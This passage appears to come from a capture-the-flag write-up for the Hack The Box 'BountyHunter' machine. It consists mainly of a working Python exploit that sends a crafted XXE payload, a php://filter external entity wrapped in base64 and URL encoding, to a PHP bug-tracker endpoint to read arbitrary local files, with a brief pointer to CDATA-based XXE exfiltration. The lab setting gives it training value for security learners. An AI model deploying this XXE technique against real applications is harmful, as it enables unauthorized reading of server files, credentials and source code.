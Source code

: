 Created a Python PoC to read the local files. If you are a manual exploitation guy, I recommend using CDATA XXE exfiltration so you don’t have to encode and decode on each request.

```python
import argparse
import base64
import requests
import sys
import textwrap
import urllib

def display_file(response, filename):
    payload = [line.strip() for line in response.split('\n')][-4][4:-5]
    if payload:
        print(f"\n[+] Successfully dumped {filename}\n")
        print(base64.b64decode(payload).decode('ascii'))
    else:
        print("\n[+] Could NOT read the file :(")
    
def exploit(target, file):
    url = f'http://{target}/tracker_diRbPr00f314.php'
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = textwrap.dedent(f'''\
        <?xml  version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE reward [
        <!ENTITY dusk SYSTEM "php://filter/convert.base64-encode/resource={file}">
        ]>
        <bugreport>
        <title>aaa</title>
        <cwe>bbb</cwe>
        <cvss>ccc</cvss>
        <reward>&dusk;</reward>
        </bugreport>''')
    
    encoded_data = urllib.parse.quote(base64.b64encode(data.encode('ascii')).decode('ascii'))
    data = f'data={encoded_data}'

    # send the request
    response = requests.post(url, headers=headers, data=data)

    if response.status_code == 200:
        return response.text

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB BountyHunter Exploit"
    )
    parser.add_argument('-t', '--target', required=True)
    parser.add_argument('-f', '--file', help='file to read', required=True)
    
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        response = exploit(args.target, args.file)
        display_file(response, args.file)
        sys.exit(0)
    
    except KeyboardInterrupt:
        print("\n[!] Keyboard interrupt detected. Quitting!")
        sys.exit(1)
```